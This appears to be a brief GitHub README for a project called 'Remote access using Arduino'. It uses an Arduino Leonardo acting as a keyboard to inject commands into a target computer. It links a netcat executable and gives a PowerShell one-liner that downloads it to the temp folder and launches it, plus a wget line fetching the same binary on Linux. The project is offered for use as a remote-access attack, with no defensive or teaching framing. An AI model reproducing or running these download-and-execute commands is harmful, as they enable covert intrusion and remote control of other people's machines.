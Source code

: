 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```
            windows c# code powershell (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
            linux wget https://github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
